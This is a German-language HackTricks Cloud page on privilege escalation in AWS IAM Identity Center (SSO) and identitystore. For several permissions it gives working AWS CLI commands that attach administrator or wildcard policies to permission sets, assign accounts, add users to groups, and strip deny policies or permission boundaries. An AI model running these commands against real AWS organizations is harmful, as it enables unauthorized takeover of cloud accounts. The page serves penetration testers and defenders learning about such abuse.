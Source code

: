 # AWS - SSO & identitystore Privesc

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}

## AWS Identity Center / AWS SSO

Für weitere Informationen über AWS Identity Center / AWS SSO siehe:

{% content-ref url="../aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../aws-services/aws-iam-enum.md)
{% endcontent-ref %}

{% hint style="warning" %}
Beachte, dass **standardmäßig** nur **Benutzer** mit Berechtigungen **aus** dem **Management-Konto** auf das **IAM Identity Center** zugreifen und es **steuern** können.\
Benutzer aus anderen Konten können dies nur zulassen, wenn das Konto ein **Delegierter Administrator** ist.\
[Überprüfe die Dokumentation für weitere Informationen.](https://docs.aws.amazon.com/singlesignon/latest/userguide/delegated-admin.html)
{% endhint %}

### ~~Passwort zurücksetzen~~

Ein einfacher Weg, um Privilegien in Fällen wie diesem zu eskalieren, wäre, eine Berechtigung zu haben, die es erlaubt, die Passwörter der Benutzer zurückzusetzen. Leider ist es nur möglich, eine E-Mail an den Benutzer zu senden, um sein Passwort zurückzusetzen, sodass du Zugriff auf die E-Mail des Benutzers benötigst.

### `identitystore:CreateGroupMembership`

Mit dieser Berechtigung ist es möglich, einen Benutzer in eine Gruppe zu setzen, sodass er alle Berechtigungen der Gruppe erbt.

{% code overflow="wrap" %}
```bash
aws identitystore create-group-membership --identity-store-id <tore-id> --group-id <group-id> --member-id UserId=<user-id>
```
{% endcode %}

### `sso:PutInlinePolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Ein Angreifer mit dieser Berechtigung könnte zusätzliche Berechtigungen zu einem Berechtigungsset gewähren, das einem Benutzer unter seiner Kontrolle gewährt wird.

{% code overflow="wrap" %}
```bash
# Set an inline policy with admin privileges
aws sso-admin put-inline-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --inline-policy file:///tmp/policy.yaml

# Content of /tmp/policy.yaml
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Statement1",
"Effect": "Allow",
"Action": ["*"],
"Resource": ["*"]
}
]
}

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachManagedPolicyToPermissionSet`, `sso:ProvisionPermissionSet`

Ein Angreifer mit dieser Berechtigung könnte zusätzliche Berechtigungen zu einem Berechtigungsset hinzufügen, das einem Benutzer unter seiner Kontrolle gewährt wird.

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-managed-policy-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --managed-policy-arn "arn:aws:iam::aws:policy/AdministratorAccess"

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:AttachCustomerManagedPolicyReferenceToPermissionSet`, `sso:ProvisionPermissionSet`

Ein Angreifer mit dieser Berechtigung könnte zusätzliche Berechtigungen zu einem Berechtigungsset gewähren, das einem Benutzer unter seiner Kontrolle gewährt wird.

{% hint style="warning" %}
Um diese Berechtigungen in diesem Fall auszunutzen, müssen Sie den **Namen einer kundenverwalteten Richtlinie kennen, die in ALLEN betroffenen Konten vorhanden ist**.
{% endhint %}

{% code overflow="wrap" %}
```bash
# Set AdministratorAccess policy to the permission set
aws sso-admin attach-customer-managed-policy-reference-to-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --customer-managed-policy-reference <customer-managed-policy-name>

# Update the provisioning so the new policy is created in the account
aws sso-admin provision-permission-set --instance-arn <instance-arn> --permission-set-arn <perm-set-arn> --target-type ALL_PROVISIONED_ACCOUNTS
```
{% endcode %}

### `sso:CreateAccountAssignment`

Ein Angreifer mit dieser Berechtigung könnte einem Benutzer unter seiner Kontrolle ein Berechtigungsset für ein Konto zuweisen.

{% code overflow="wrap" %}
```bash
aws sso-admin create-account-assignment --instance-arn <instance-arn> --target-id <account_num> --target-type AWS_ACCOUNT --permission-set-arn <permission_set_arn> --principal-type USER --principal-id <principal_id>
```
{% endcode %}

### `sso:GetRoleCredentials`

Gibt die STS- kurzfristigen Anmeldeinformationen für einen bestimmten Rollennamen zurück, der dem Benutzer zugewiesen ist.

{% code overflow="wrap" %}
```
aws sso get-role-credentials --role-name <value> --account-id <value> --access-token <value>
```
{% endcode %}

Sie benötigen jedoch ein Zugriffstoken, dessen Beschaffung mir unklar ist (TODO).

### `sso:DetachManagedPolicyFromPermissionSet`

Ein Angreifer mit dieser Berechtigung kann die Zuordnung zwischen einer AWS verwalteten Richtlinie und dem angegebenen Berechtigungsset entfernen. Es ist möglich, mehr Berechtigungen zu gewähren, indem eine verwaltete Richtlinie (Ablehnungsrichtlinie) abgetrennt wird.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-managed-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN> --managed-policy-arn <ManagedPolicyARN>
```
{% endcode %}

### `sso:DetachCustomerManagedPolicyReferenceFromPermissionSet`

Ein Angreifer mit dieser Berechtigung kann die Zuordnung zwischen einer von Kunden verwalteten Richtlinie und dem angegebenen Berechtigungsset entfernen. Es ist möglich, weitere Berechtigungen zu gewähren, indem eine verwaltete Richtlinie (Ablehnungsrichtlinie) abgetrennt wird.

{% code overflow="wrap" %}
```bash
aws sso-admin detach-customer-managed-policy-reference-from-permission-set --instance-arn <value> --permission-set-arn <value> --customer-managed-policy-reference <value>
```
{% endcode %}

### `sso:DeleteInlinePolicyFromPermissionSet`

Ein Angreifer mit dieser Berechtigung kann die Berechtigungen aus einer Inline-Richtlinie des Berechtigungssets entfernen. Es ist möglich, **mehr Berechtigungen zu gewähren, indem eine Inline-Richtlinie (Verweigerungsrichtlinie) abgetrennt wird**.

{% code overflow="wrap" %}
```bash
aws sso-admin delete-inline-policy-from-permission-set --instance-arn <SSOInstanceARN> --permission-set-arn <PermissionSetARN>
```
{% endcode %}

### `sso:DeletePermissionBoundaryFromPermissionSet`

Ein Angreifer mit dieser Berechtigung kann die Berechtigungsgrenze aus dem Berechtigungsset entfernen. Es ist möglich, **mehr Berechtigungen zu gewähren, indem die Einschränkungen des Berechtigungssets, die von der Berechtigungsgrenze gegeben werden, entfernt werden.**

{% code overflow="wrap" %}
```bash
aws sso-admin   delete-permissions-boundary-from-permission-set --instance-arn <value> --permission-set-arn <value>
```
{% endcode %}

{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstütze HackTricks</summary>

* Überprüfe die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Tritt der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folge** uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Teile Hacking-Tricks, indem du PRs zu den** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichst.

</details>
{% endhint %}
